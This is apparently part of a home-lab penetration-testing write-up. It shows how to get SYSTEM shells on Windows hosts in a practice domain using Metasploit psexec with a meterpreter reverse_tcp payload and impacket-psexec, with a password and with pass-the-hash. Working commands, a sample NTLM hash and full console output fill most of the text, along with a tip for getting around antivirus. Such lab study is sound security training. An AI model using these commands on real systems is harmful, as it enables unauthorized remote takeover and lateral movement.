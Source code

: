 # VIII. Gaining Shell Access

Based on the previous attacks, some information was obtained that can be utilized to gain a shell on a machine.

This can be done through a variety of ways, such as:

- **Through Metasploit - with a password.** `use exploit/windows/smb/psexec`
    
    Make sure Kali and both Windows machines are on.
    
    On Kali start metasploit with `msfconsole`.
    
    Next, type the following command `use exploit/windows/smb/psexec`.
    
    Use the `options` command.
    
    The target machine is 64-bit, so change the payload using `set payload windows/x64/meterpreter/reverse_tcp`
    
    Give the target windows machine IP address with `set RHOSTS <IP>`,
    
    The SMB Domain with `set smbdomain <DOMAIN NAME>`,
    
    The SMB Username (use the local administrator credentials) with `set smbuser <USERNAME>`,
    
    The Password with `set smbpass <PASSWORD>`,
    
    ```bash
    msf6 > use exploit/windows/smb/psexec
    [*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/psexec) > set payload windows/x64/meterpreter/reverse_tcp
    payload => windows/x64/meterpreter/reverse_tcp
    msf6 exploit(windows/smb/psexec) > set rhosts 10.0.2.11
    rhosts => 10.0.2.11
    msf6 exploit(windows/smb/psexec) > set smbdomain ONEPIECE.local
    smbdomain => ONEPIECE.local
    msf6 exploit(windows/smb/psexec) > set smbuser Franky
    smbuser => Franky
    msf6 exploit(windows/smb/psexec) > set smbpass Password1
    smbpass => Password1
    msf6 exploit(windows/smb/psexec) > options
    
    Module options (exploit/windows/smb/psexec):
    
       Name                  Current Setting  Required  Description
       ----                  ---------------  --------  -----------
       RHOSTS                10.0.2.11        yes       The target host(s), see https://docs.metasplo
                                                        it.com/docs/using-metasploit/basics/using-met
                                                        asploit.html
       RPORT                 445              yes       The SMB service port (TCP)
       SERVICE_DESCRIPTION                    no        Service description to be used on target for
                                                        pretty listing
       SERVICE_DISPLAY_NAME                   no        The service display name
       SERVICE_NAME                           no        The service name
       SMBDomain             ONEPIECE.local   no        The Windows domain to use for authentication
       SMBPass               Password1        no        The password for the specified username
       SMBSHARE                               no        The share to connect to, can be an admin shar
                                                        e (ADMIN$,C$,...) or a normal read/write fold
                                                        er share
       SMBUser               Franky           no        The username to authenticate as
    
    Payload options (windows/x64/meterpreter/reverse_tcp):
    
       Name      Current Setting  Required  Description
       ----      ---------------  --------  -----------
       EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
       LHOST     10.0.2.4         yes       The listen address (an interface may be specified)
       LPORT     4444             yes       The listen port
    
    Exploit target:
    
       Id  Name
       --  ----
       0   Automatic
    
    ```
    
    Finally run the exploit using the `run` command.
    
    We can set this session to the background using `background`, show all current sessions with `sessions` and go back to any available session using `session <ID>`.
    
    ```bash
    msf6 exploit(windows/smb/psexec) > run
    
    [*] Started reverse TCP handler on 10.0.2.4:4444 
    [*] 10.0.2.11:445 - Connecting to the server...
    [*] 10.0.2.11:445 - Authenticating to 10.0.2.11:445|ONEPIECE.local as user 'Franky'...
    [*] 10.0.2.11:445 - Selecting PowerShell target
    [*] 10.0.2.11:445 - Executing the payload...
    [+] 10.0.2.11:445 - Service start timed out, OK if running a command or non-service executable...
    [*] Sending stage (200774 bytes) to 10.0.2.11
    [*] Meterpreter session 1 opened (10.0.2.4:4444 -> 10.0.2.11:63341) at 2024-04-22 06:16:06 -0400
    
    meterpreter > background
    [*] Backgrounding session 1...
    msf6 exploit(windows/smb/psexec) > sessions
    
    Active sessions
    ===============
    
      Id  Name  Type                     Information                   Connection
      --  ----  ----                     -----------                   ----------
      1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ FRANKY  10.0.2.4:4444 -> 10.0.2.11:633
                                                                       41 (10.0.2.11)
    
    ```
    

- **Through Metasploit - with a hash.** `use exploit/windows/smb/psexec`
    
    The steps are the same as the one above with minor differences such as not requiring a SMB Domain  This can be achieved with `unset smbdomain`.
    
    And, the user needs to be changed to the local administrator with `set smbuser administrator`.
    
    Copy the administrator hash from the SMB relay attack and use it with `set smbpass <HASH>`.
    
    ```bash
    msf6 exploit(windows/smb/psexec) > unset smbdomain
    Unsetting smbdomain...
    [!] Variable "smbdomain" unset - but will use a default value still. If this is not desired, set it to a new value or attempt to clear it with set --clear smbdomain
    msf6 exploit(windows/smb/psexec) > set smbuser administrator
    smbuser => administrator
    msf6 exploit(windows/smb/psexec) > set smbpass aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
    smbpass => aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
    ```
    
    Run the exploit.
    
    ```bash
    msf6 exploit(windows/smb/psexec) > run
    
    [*] Started reverse TCP handler on 10.0.2.4:4444 
    [*] 10.0.2.11:445 - Connecting to the server...
    [*] 10.0.2.11:445 - Authenticating to 10.0.2.11:445 as user 'administrator'...
    [*] 10.0.2.11:445 - Selecting PowerShell target
    [*] 10.0.2.11:445 - Executing the payload...
    [*] Sending stage (200774 bytes) to 10.0.2.11
    [+] 10.0.2.11:445 - Service start timed out, OK if running a command or non-service executable...
    [*] Meterpreter session 2 opened (10.0.2.4:4444 -> 10.0.2.11:61424) at 2024-04-22 06:23:07 -0400
    
    meterpreter > ls
    Listing: C:\Windows\system32
    ```
    

These methods tend to be pretty noisy and can easily be detected if used in a real-world environment. Hence we can use a tool like:

- **psexec - with password.** `psexec.py ONEPIECE.local/franky:'Password1'@10.0.2.11`
    
    Go to a new tab and use `impacket-psexec DOMAIN NAME/USERNAME:'PASSWORD'@IPADDRESS`
    
    And we have a shell.
    
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo impacket-psexec ONEPIECE.local/franky:'Password1'@10.0.2.11 
    [sudo] password for kali: 
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [*] Requesting shares on 10.0.2.11.....
    [*] Found writable share ADMIN$
    [*] Uploading file JOAVimib.exe
    [*] Opening SVCManager on 10.0.2.11.....
    [*] Creating service wUhC on 10.0.2.11.....
    [*] Starting service wUhC.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.19045.2006]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> net user
     
    User accounts for \\
    
    -------------------------------------------------------------------------------
    Administrator            DefaultAccount           Guest                    
    Suuuper                  WDAGUtilityAccount       
    
    ```
    
    NOTE: In a situation were there’s a password that cannot be passed as a string, simply omit it from the command and enter it in the prompt.
    

- **psexec - with a hash.** `psexec.py administrator@10.0.2.11 -hashes LM:NT`
    
    Copy the administrator hash from the SMB relay attack.
    
    ![shell 1.png](VIII%20Gaining%20Shell%20Access%20c8ef47bc1b284eb6a4ef3f5ff1c2d540/shell_1.png)
    
    Use the following command `impacket-psexec USERNAME@IPADDRESS -hashes HASH`
    
    Boom a shell.
    
    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ sudo impacket-psexec administrator@10.0.2.11 -hashes aad3b435b51404eeaad3b435b51404ee:7facdc498ed1680c4fd1448319a8c04f
    Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation
    
    [*] Requesting shares on 10.0.2.11.....
    [*] Found writable share ADMIN$
    [*] Uploading file wTVCTmGn.exe
    [*] Opening SVCManager on 10.0.2.11.....
    [*] Creating service RHCb on 10.0.2.11.....
    [*] Starting service RHCb.....
    [!] Press help for extra shell commands
    Microsoft Windows [Version 10.0.19045.2006]
    (c) Microsoft Corporation. All rights reserved.
    
    C:\Windows\system32> net user
     
    User accounts for \\
    
    -------------------------------------------------------------------------------
    Administrator            DefaultAccount           Guest                    
    Suuuper                  WDAGUtilityAccount       
    ```
    
    NOTE: In a situation where psexec does not work or gets blocked by an antivirus. Use `wmicexec` or `smbexec` with the same arguments.